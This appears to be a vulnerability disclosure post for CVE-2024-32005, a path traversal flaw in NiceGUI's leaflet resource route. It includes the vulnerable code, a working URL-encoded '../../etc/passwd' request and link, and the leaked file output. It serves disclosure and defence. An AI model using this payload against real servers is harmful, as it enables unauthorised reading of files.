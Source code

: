 ```yaml
---
layout: post
title:  "CVE-2024-32005: Local File Inclusion in NiceGUI leaflet component"
date:  2024-04-10 10:31:06 +0800
categories: file-overwrite
---
```


## Name

> NiceGUI: Local File Inclusion in NiceGUI leaflet component

## Weakness

> CWE-22: Path Traversal

## Severity

> High (8.8)

## CVE

> [CVE-2024-32005: Local File Inclusion in NiceGUI leaflet component](https://www.cve.org/CVERecord?id=CVE-2024-32005)

## Description

A local file inclusion is present in the NiceUI leaflet component when requesting resource files under the `/_nicegui/{__version__}/resources/{key}/{path:path}` route.

## Proof of Concept

In [route](https://github.com/zauberzeug/nicegui/blob/eac5a5faa9fbd8823a6b76784a76fce618fd7afc/nicegui/nicegui.py#L98) `/_nicegui/{__version__}/resources/{key}/{path:path}` is used for [serving CSS and JS resources locally](https://github.com/zauberzeug/nicegui/commit/b465af3bb7a825c89ca6562e5eb7ebfeee5bb589). The `path` parameter in url is not sanitized before appended to base path, an attacker can use `..` to escape base directory and locate any file on system which will be sent back to the attacker, causing local file inclusion issue.

```
@app.get(f'/_nicegui/{__version__}' + '/resources/{key}/{path:path}')
def _get_resource(key: str, path: str) -> FileResponse:
    if key in resources:
        filepath = resources[key].path / path
        if filepath.exists():
            headers = {'Cache-Control': 'public, max-age=3600'}
            media_type, _ = mimetypes.guess_type(filepath)
            return FileResponse(filepath, media_type=media_type, headers=headers)
    raise HTTPException(status_code=404, detail=f'resource "{key}" not found')
```

However, the `resources` is only [initialized](https://github.com/zauberzeug/nicegui/blob/eac5a5faa9fbd8823a6b76784a76fce618fd7afc/nicegui/elements/leaflet.py#L40) by `ui.leaflet` component. To exploit the bug, a developer should use `leaflet` component in web pages so that the route is activated. Consider following [code snippet](https://nicegui.io/documentation/leaflet#leaflet_map) from official document.

Firstly, install nicegui using `python pip`:

```
pip install nicegui
```
Then, save following code to `main.py`
```
from nicegui import ui

m = ui.leaflet(center=(51.505, -0.09))
ui.label().bind_text_from(m, 'center', lambda center: f'Center: {center[0]:.3f}, {center[1]:.3f}')
ui.label().bind_text_from(m, 'zoom', lambda zoom: f'Zoom: {zoom}')

with ui.grid(columns=2):
    ui.button('London', on_click=lambda: m.set_center((51.505, -0.090)))
    ui.button('Berlin', on_click=lambda: m.set_center((52.520, 13.405)))
    ui.button(icon='zoom_in', on_click=lambda: m.set_zoom(m.zoom + 1))
    ui.button(icon='zoom_out', on_click=lambda: m.set_zoom(m.zoom - 1))

ui.run()
```
Run the application, it will listen on `http://127.0.0.1:8080` by default.

```
python main.py
```
Open the webpage in browser and intecept requests using burp suite or chrome devtools. We can capture following request:

```
GET http://10.15.0.171:8080/_nicegui/1.4.20/resources/763203f93f18a3f1f5d14f74197580e4/leaflet/leaflet.js HTTP/1.1
Accept: */*
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7,ja-JP;q=0.6,ja;q=0.5
Cache-Control: no-cache
Cookie: 
Pragma: no-cache
Referer: http://10.15.0.171:8080/
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Postman-Token: 73930b8b-6cc7-4511-aff9-ff25d835c300
Host: 10.15.0.171:8080
Accept-Encoding: gzip, deflate
Connection: close
```
Modify the request by change `leaflet/leaflet.js` part to `%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64` which is `../../../../../etc/passwd` url-encoded content.

```
GET http://10.15.0.171:8080/_nicegui/1.4.20/resources/763203f93f18a3f1f5d14f74197580e4/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64 HTTP/1.1
Accept: */*
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7,ja-JP;q=0.6,ja;q=0.5
Cache-Control: no-cache
Cookie: _xsrf=2|87674a0e|961e2a9f73992956aae527a8f55167fb|1706518977; _gitlab_session=64bf3e7143f852d8e3646970f8c7b3df; fakesession=hello
Pragma: no-cache
Referer: http://10.15.0.171:8080/
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Postman-Token: 73930b8b-6cc7-4511-aff9-ff25d835c300
Host: 10.15.0.171:8080
Accept-Encoding: gzip, deflate
Connection: close
```

Or just open link: `http://10.15.0.171:8080/_nicegui/1.4.20/resources/763203f93f18a3f1f5d14f74197580e4/%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64` in browser(change ip and port to your server).

The output is the contents of the `/etc/passwd` file:

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
...
```

![niceui](/assets/cve/niceui.png)

## Impact

Any file on the backend filesystem can be read by an attacker with access to the NiceUI leaflet website.



## Reference

[https://github.com/zauberzeug/nicegui/issues/2870](https://github.com/zauberzeug/nicegui/issues/2870)

[https://www.cve.org/CVERecord?id=CVE-2024-32005](https://www.cve.org/CVERecord?id=CVE-2024-32005)

[https://nvd.nist.gov/vuln/detail/CVE-2024-32005](https://nvd.nist.gov/vuln/detail/CVE-2024-32005)

[https://github.com/zauberzeug/nicegui/security/advisories/GHSA-mwc7-64wg-pgvj](https://github.com/zauberzeug/nicegui/security/advisories/GHSA-mwc7-64wg-pgvj)

[https://huntr.com/bounties/29ec621a-bd69-4225-ab0f-5bb8a1d10c67](https://huntr.com/bounties/29ec621a-bd69-4225-ab0f-5bb8a1d10c67)

## Occurrences

[https://github.com/zauberzeug/nicegui/blob/eac5a5faa9fbd8823a6b76784a76fce618fd7afc/nicegui/nicegui.py#L98](https://github.com/zauberzeug/nicegui/blob/eac5a5faa9fbd8823a6b76784a76fce618fd7afc/nicegui/nicegui.py#L98)
